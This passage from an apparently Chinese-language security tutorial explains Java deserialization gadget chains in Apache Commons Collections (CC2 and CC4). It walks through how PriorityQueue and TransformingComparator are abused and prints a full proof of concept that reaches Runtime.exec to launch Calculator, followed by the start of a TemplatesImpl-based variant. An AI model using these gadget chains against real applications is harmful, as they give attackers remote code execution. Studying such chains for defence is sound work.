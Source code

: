 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108311626962.png-water_print](assets/1699411715-9f0983a2ceef50a5b1a4e6bb4c1b8060.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108311626962.png-water_print")

总结起来就是：

-   `java.util.PriorityQueue` 是一个优先队列 (Queue)，基于二叉堆实现，队列中每一个元素有自己的优先级，节点之间按照优先级大小排序成一棵树。
    
-   反序列化时调用 `heapify()` 方法，是为了反序列化后，需要恢复这个结构的顺序。
    
-   排序是靠将大的元素下移实现的。`siftDown()` 是将节点下移的函数，而 `comparator.compare()` 用来比较两个元素大小。
    
-   `TransformingComparator` 实现了 `java.util.Comparator` 接口，这个接口用于定义两个对象如何进行比较。 `siftDownUsingComparator()` 中就使用这个接口的 `compare()` 方法比较树的节点。
    

POC 如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>``` | ```java<br>package CC4Test;<br><br>import org.apache.commons.collections4.Transformer;<br>import org.apache.commons.collections4.comparators.TransformingComparator;<br>import org.apache.commons.collections4.functors.ChainedTransformer;<br>import org.apache.commons.collections4.functors.ConstantTransformer;<br>import org.apache.commons.collections4.functors.InvokerTransformer;<br><br>import java.io.ByteArrayInputStream;<br>import java.io.ByteArrayOutputStream;<br>import java.io.ObjectInputStream;<br>import java.io.ObjectOutputStream;<br>import java.lang.reflect.Field;<br>import java.util.Comparator;<br>import java.util.PriorityQueue;<br><br>public class CC4Test {<br>    public static void main(String[] args) throws Exception {<br>        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};<br><br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),<br>                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] {null, new Object[0] }),<br>                new InvokerTransformer("exec",new Class[] { String.class }, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})<br>        };<br><br>        Transformer transformerChain = new ChainedTransformer(fakeTransformers);<br><br>        Comparator comparator = new TransformingComparator(transformerChain);<br>        PriorityQueue queue = new PriorityQueue(2, comparator);<br><br>        queue.add(1);<br>        queue.add(2);<br>        <br>        Field f = transformerChain.getClass().getDeclaredField("iTransformers");<br>        f.setAccessible(true);<br>        f.set(transformerChain, transformers);<br><br>        // 序列化<br>        ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(barr);<br>        oos.writeObject(queue);<br>        oos.close();<br><br>        // 反序列化<br>        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>        ois.readObject();<br>    }<br>}<br>``` |

#### [](#422-commonscollection4-gadget)4.2.2 CommonsCollection4 Gadget

改进 PriorityQueue 利用链：因为 CommonsCollections4 除 4.0 的其他版本去掉了 InvokerTransformer 的 Serializable 继承，导致无法序列化。所以便有了 CC4，CC4 只是将 CC2 中的 InvokerTransformer 替换为了 InstantiateTransformer。

创建 `TemplatesImpl` 对象：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```java<br>TemplatesImpl obj = new TemplatesImpl();<br>setFieldValue(obj, "_bytecodes", new byte[][]{getBytescode()});<br>setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br>``` |

创建一个正常的 `InvokerTransformer` 对象，并用它实例化 `Comparator` :

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```java<br>Transformer transformer = new InvokerTransformer("toString", null, null);<br>Comparator comparator = new TransformingComparator(transformer);<br>``` |
